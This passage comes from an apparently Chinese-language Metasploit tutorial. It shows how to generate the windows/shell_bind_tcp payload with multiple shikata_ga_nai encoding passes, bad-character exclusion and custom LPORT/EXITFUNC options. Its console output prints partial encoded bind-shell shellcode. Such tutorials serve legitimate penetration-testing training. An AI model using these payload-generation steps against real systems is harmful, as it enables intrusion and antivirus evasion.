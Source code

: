 上面两种攻击载荷的大小不同，多个passes产生了更多的载荷字节；此外，载荷的内容不一样了。迭代次数越多，载荷越大。由于第二次迭代（第二次编码过程），它对我们的有效载荷进行了一次编码，而不是把那个有效载荷重新编码。让我们看一下循环5次后的结果：

```
msf  payload(shell_bind_tcp) > generate -b '\x00' -i 5
# windows/shell_bind_tcp - 476 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xb8\xea\x18\x9b\x0b\xda\xc4\xd9\x74\x24\xf4\x5b\x33\xc9" +
"\xb1\x71\x31\x43\x13\x83\xeb\xfc\x03\x43\xe5\xfa\x6e\xd2" +
"\x31\x23\xe4\xc1\x35\x8f\x36\xc3\x0f\x94\x11\x23\x54\x64" +
"\x0b\xf2\xf9\x9f\x4f\x1f\x01\x9c\x1c\xf5\xbf\x7e\xe8\xc5" +
"\x94\xd1\xbf\xbb\x96\x64\xef\xc1\x10\x9e\x38\x45\x1b\x65" +
...snip...
```

##### 设置载荷种的默认选项

例如我们要修改载荷中默认使用的端口号，可以使用 ```-o``` 。

例如，我们修改两个默认参数：lport和exitfunc：

```shell

msf  payload(shell_bind_tcp) > show options

Module options (payload/windows/shell_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address

msf  payload(shell_bind_tcp) > generate -o LPORT=1234,EXITFUNC=seh -b '\x00' -e x86/shikata_ga_nai
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=1234, RHOST=, EXITFUNC=seh, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xd1\xd9\x74\x24\xf4\xbb\x93\x49\x9d\x3b\x5a\x29\xc9" +
"\xb1\x56\x83\xc2\x04\x31\x5a\x14\x03\x5a\x87\xab\x68\xc7" +
"\x4f\xa2\x93\x38\x8f\xd5\x1a\xdd\xbe\xc7\x79\x95\x92\xd7" +
"\x0a\xfb\x1e\x93\x5f\xe8\x95\xd1\x77\x1f\x1e\x5f\xae\x2e" +
"\x9f\x51\x6e\xfc\x63\xf3\x12\xff\xb7\xd3\x2b\x30\xca\x12" +
"\x6b\x2d\x24\x46\x24\x39\x96\x77\x41\x7f\x2a\x79\x85\x0b" +
"\x12\x01\xa0\xcc\xe6\xbb\xab\x1c\x56\xb7\xe4\x84\xdd\x9f" +
...snip...
```
